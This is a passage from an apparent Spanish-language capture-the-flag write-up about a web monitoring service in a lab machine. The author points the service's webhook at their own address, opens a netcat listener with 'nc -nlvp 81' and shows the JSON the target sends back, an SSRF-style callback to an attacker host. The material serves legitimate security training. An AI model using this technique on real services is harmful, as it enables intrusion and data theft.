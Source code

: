 Podemos sustituir https://example.com/nueva-direccion por http://10.10.11.176.

Igual que antes, para monitorizar la web, sería ejecutar el *script* anterior. Esto nos montará un servicio web en *http://\<IP_tun0\>:80*, en mi caso http://10.10.14.11:80.

Para ponernos en escucha y recibir información de http://10.10.14.11:80 haremos:

```bash
nc -nlvp 81
```

Rellenamos el formulario, clicamos en ***Test*** y recibiremos la siguiente información:

```json
{
  "webhookUrl": "http://10.10.14.11:81",
  "monitoredUrl": "http://10.10.14.11",
  "health": "up",
```